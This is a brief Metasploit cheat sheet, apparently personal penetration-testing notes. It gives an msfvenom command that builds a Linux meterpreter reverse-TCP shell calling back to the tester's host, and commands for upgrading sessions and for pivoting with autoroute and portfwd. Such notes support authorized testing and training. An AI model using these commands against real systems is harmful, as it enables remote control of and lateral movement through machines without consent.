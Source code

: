 # Metasploit

## meterpreter

### Payload generation

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$me LPORT=1234 -f elf -o rev
```

### Upgrading to meterpreter

- Use the `post/multi/manage/shell_to_meterpreter` module to upgrade.
- Use `sessions -u id` to upgrade a session.

## pivoting

```shell
run autoroute -s 10.10.10.0/24
```

```shell
run autoroute -p
```

```shell
portfwd add -l 1234 -p 80 -r $ip
```

